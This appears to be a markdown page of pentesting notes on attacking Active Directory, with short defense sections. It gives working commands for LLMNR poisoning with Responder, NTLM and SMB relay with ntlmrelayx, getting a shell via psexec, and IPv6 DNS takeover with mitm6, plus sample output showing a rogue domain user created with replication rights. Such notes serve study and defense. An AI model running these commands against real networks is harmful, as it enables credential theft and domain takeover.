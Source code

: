 An Active Directory environment has a very critical dependency on a Domain Name System (DNS) service. 

A typical domain controller in an AD will also host a DNS server that is authoritative for a given domain.

An attack against Active Directory infrastructure begins with an exploit or client-side attack against a domain workstation or server followed by enumeration of the AD environment.

## Main concepts of Active Directory:
- Directory – Contains all the information about the objects of the Active directory
- Object – An object references almost anything inside the directory (a user, group, shared folder...)
- Domain – The objects of the directory are contained inside the domain. Inside a "forest" more than one domain can exist and each of them will have their own objects collection. 
- Tree – Group of domains with the same root. Example: dom.local, email.dom.local, www.dom.local
- Forest – The forest is the highest level of the organization hierarchy and is composed by a group of trees. The trees are connected by trust relationships.

### Attacking Active Directory

- [password cracking](/password_cracking/README.md)
- [Adam Toscher - Top 5 ways](https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)

#### LLMNR Poisoning
- Link Local multicast name resoluton
- NETBIOS / DNS
- MITM Type Attack - We respond to the request
- The issue is that username and hash are given with correct response
- Tools
    - Impacket / Responder [Start before nmap and nessus scan]
 


##### LLMNR Poisoning Defense
- Turn off Multicast name resolution 
```
[Local Computer Policy  / Computer Config / Admin Templatesd / Network / DNS Client]
```
- Disable NBT-NS
```
[Network Adapter Properties / TCP Properties / Advanced / Wins / Disable Netbios over TCP/IP ]
```
    Else:
        - Require Network Access Control
        - Strong Passwords



#### Capture NTMLv2 hashes with Responder
```bash
sudo responder -I eth0 -dw 
```

#### SMB Relay Attacks
Instead of cracking hashes, relay credentials instead
- SMB signing needs to be off
- Relayed creds must be admin on machine


```bash
/etc/responder/Responder.conf # SMB = Off / HTTP = Off
python ntlmrelayx.py -ft targets.txt -smb2support
```

> SAM Hashes
Local user hashes / Windows version of ```/etc/passwd``` for local users

#### Discovering Hosts with SMB signing disabled
> Defaults

- Local machines = Off
- Servers = On

> Find via

- nessus scan
- nmap

```bash
sudo nmap --script=smb2-security-mode -p 445 192.168.131.0/24
```

#### Gaining Shell

```
sudo responder -I eth0 -dw
sudo ntlmrelayx.py -tf targets.txt -smb2support -i
sudo nc 127.0.0.1 11000
```

```bash
msfconsole/windows/smb/psexec
    execute -f cmd.exe -i -H

```

### Mitigation
- Enable SMB signing
- Disable NTLM auth
- limit domain / local admins
- LDAP relay
- MiTM6
- difficult to detect




#### IPv6 DNS Takeover

- More reliable
- Probable IPv6 DNS hole
- Authentication to DC via LDAP
- [mitm6:](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
- [Combining NTLM Relays and Kerberos Delegation:](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)

```bash
ntlmrelayx.py -6 -t ldaps://192.168.131.131 -wh fakewpad.basejump.local -l lootme

sudo git clone https://github.com/dirkjanm/mitm6 /opt/mitm6
sudo python3 mitm6.py -d basejump.local

sudo ntlmrelayx.py -6 -t ldaps://192.168.131.131 -wh fakewpad.basejump.local -l lootme

sudo python3 mitm6.py -d basejump.local
```
> Output
```
[*] Adding new user with username: YLzmriDGhj and password: ,JtM/MDi:z1G+OO result: OK
[*] Querying domain security descriptor
[*] Success! User YLzmriDGhj now has Replication-Get-Changes-All privileges on the domain

```

#### IPv6 Attack Defenses

- Disable WPAD WinHttpAutoProxySvc service
- LDAP signing / LDAPS channel binding
- Block Admin Delegation


#### Passback attack
Looking for access to LDAP / SMB / SMTP / Other connections of peripherials

- [Passback attack](https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/)
- MFPs = Multi-Function Peripherials [printers]
- Management Pages - LDAP Server = $(AttackingIP)

### Other vectors & approaches

- Start with MitM6 or Responder
- Nessus & nmap scan
    - SMB signing not active
- Run scans and generate traffic
- Listen for clear text creds on other systems
    - phone systems
    - Copier scanner
- Look for Websites [metasploit / http_version]
- Default Logins
    - Printers [scan to computer with admin rights]
    - Work flow applications
- Find unique / unusual methods in





